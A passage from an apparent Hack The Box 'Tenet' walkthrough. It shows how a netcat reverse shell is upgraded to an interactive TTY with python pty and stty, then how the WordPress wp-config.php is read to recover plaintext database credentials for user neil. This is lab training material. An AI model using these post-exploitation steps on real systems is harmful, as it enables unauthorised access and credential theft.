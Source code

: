 ```bash
```
Now we can upgrade our shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`, then Ctrl-z, `stty raw -echo; fg`, then `reset` and setting the terminal to `xterm`:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@tenet:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
┌──(kali㉿kali)-[~/HTB/tenet]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@tenet:/var/www/html$
```

## Shell as Neil
### Enumeration
On this box there is only one user `neil`
```bash
www-data@tenet:/var/www/html$ ls /home/
neil
```

Remember that this is a WordPress site, so we can poke around the config files to find any credentials. We find the following in the `wp-config.php` file:
```php
www-data@tenet:/var/www$ cat html/wordpress/wp-config.php 
<?php
... [SNIP] ...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'WP_HOME', 'http://tenet.htb');
define( 'WP_SITEURL', 'http://tenet.htb');
... [SNIP] ...
```
